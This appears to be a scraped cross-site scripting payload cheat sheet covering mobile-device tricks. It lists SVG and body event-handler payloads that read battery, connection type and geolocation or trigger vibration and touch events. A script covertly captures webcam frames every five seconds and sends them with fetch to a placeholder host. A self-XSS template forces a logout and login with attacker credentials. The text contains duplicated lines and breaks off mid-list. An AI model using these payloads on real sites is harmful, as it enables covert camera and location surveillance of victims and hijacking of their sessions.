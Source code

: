 Javascript

Properties

<svg onload=alert(navigator.connection.type)>
<svg onload=alert(navigator.battery.level)>
<svg onload=alert(navigator.battery.dischargingTime)>
<svg onload=alert(navigator.battery.charging)>

Functions

<svg onload=navigator.vibrate(500)>
<svg onload=navigator.vibrate([500,300,100])>

XSS in Mobile Devices

<body onorientationchange=alert(orientation)>
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<svg onload=alert(navigator.connection.type)>
<svg onload=alert(navigator.battery.level)>
<svg onload=alert(navigator.battery.dischargingTime)>
<svg onload=alert(navigator.battery.charging)>
<script>
navigator.geolocation.getCurrentPosition(function(p){
alert('Latitude:'+p.coords.latitude+',Longitude:'+
p.coords.longitude+',Altitude:'+p.coords.altitude);})
</script>
<script>
d=document;
v=d.createElement('video');
c=d.createElement('canvas');
c.width=640;
c.height=480;
navigator.webkitGetUserMedia({'video':true},function(s){
v.src=URL.createObjectURL(s);v.play()},function(){});
c2=c.getContext('2d');
x='c2.drawImage(v,0,0,640,480);fetch("//HOST/"+c2.canvas.toDataURL())';
setInterval(x,5000);
</script>
open(c2.canvas.toDataURL())
<svg onload=navigator.vibrate(500)>
<svg onload=navigator.vibrate([500,300,100])>

Generic Self to Regular XSS

<iframe src=LOGOUT_URL onload=forms[0].submit()>
</iframe><form method=post action=LOGIN_URL>
<input name=USERNAME_PARAMETER_NAME value=USERNAME>
<input name=PASSWORD_PARAMETER_NAME value=PASSWORD>

Leveraging Self-XSS

POST to GET

